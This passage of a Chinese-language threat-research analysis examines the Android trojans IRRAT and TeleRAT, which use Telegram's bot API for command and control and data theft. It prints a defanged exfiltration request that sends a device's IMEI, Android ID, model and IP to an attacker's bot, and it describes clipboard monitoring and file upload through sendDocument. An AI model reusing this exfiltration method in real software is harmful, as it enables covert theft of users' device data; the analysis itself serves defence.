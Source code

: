```
hxxp://api.telegram.org/bot[APIKey]/sendmessage?chat_id=[ChatID]?text=نصب جدید\n [IMEI] \nIMEI : :[IMEI]\n
Android ID : [AndroidID]\nModel : [PhoneModel]\n[IP] \n\nIMEI دستگاه: [IMEI]
```

在后台，应用会定期向Telegram Bot发出信号，并监听特定的命令，如下所示。

**[![](https://p3.ssl.qhimg.com/t011661480079369e03.png)](https://p3.ssl.qhimg.com/t011661480079369e03.png)<br>****表1 ：IRRAT bot命令列表**

如上表所示，此IRRAT示例仅使用Telegram的bot API将命令传达给受感染的设备。被盗的数据上传到第三方服务器，其中几个使用虚拟主机服务。对我们来说幸运的是，这些服务器有几个OPSEC失误。更多内容后面会提及。



## 一个新的家族- TeleRAT

在使用AutoFocus对IRRAT样本进行筛选时，我们遇到了另一Android RAT家族，它们似乎针对伊朗的个人，不仅利用Telegram API作为C&amp;C，还用于回传盗取的信息。

[![](https://p5.ssl.qhimg.com/t01a6ae5c388feb5bec.png)](https://p5.ssl.qhimg.com/t01a6ae5c388feb5bec.png)

**图1 ：在AutoFocus系统中找到的使用Telegram bot API的恶意软件**

我们将其命名为“TeleRAT”。

使用下面的样本进行分析。
<td width="49">**SHA256**</td><td width="402">01fef43c059d6b37be7faf47a08eccbf76cf7f050a7340ac2cae11942f27eb1d</td>

安装TeleRAT后在内部目录中创建两个文件：
- txt：包含有关设备的大量信息-包括System Bootloader版本号，内部存储和外部存储的总大小、可用数量，以及内核数量。
- txt：记录了Telegram channel和一系列指令。Telegram channel会在后面详细介绍。
RAT成功安装后向攻击者发送一个Telegram bot消息，包含当前日期和时间。

更有意思的是，它启动了一个服务，用于监听后台对剪贴板所做的更改。

[![](https://p4.ssl.qhimg.com/t0131f2038393a25273.png)](https://p4.ssl.qhimg.com/t0131f2038393a25273.png)

**图2 ：监听剪贴板更改的代码片段**

最后，应用程序每4.6秒从Telegram bot API获取更新，监听以下命令

[![](https://p3.ssl.qhimg.com/t0165fdf69b698b3995.png)](https://p3.ssl.qhimg.com/t0165fdf69b698b3995.png)

[![](https://p0.ssl.qhimg.com/t01e952c0664d9e81aa.png)](https://p0.ssl.qhimg.com/t01e952c0664d9e81aa.png)

** ****表2 ：TeleRAT bot命令列表**

除了附加命令之外，TeleRAT与IRRAT的主要区别在于它还使用Telegram的sendDocument API上传了已隐私数据数据。

[![](https://p0.ssl.qhimg.com/t017c5696d40d524bea.png)](https://p0.ssl.qhimg.com/t017c5696d40d524bea.png)

**图3 ：使用SendDocument Telegram bot API方法的代码片段**

** **TeleRAT是IRRAT的升级版，它避免了IRRAT基于向已知服务器传输数据的网络检测方式，因为所有通信(包括上传)都是通过Telegram bot API完成的。但它仍然留下了一些基于使用Telegram’s bot API的一些痕迹，例如硬编码在APK文件中的API密钥。
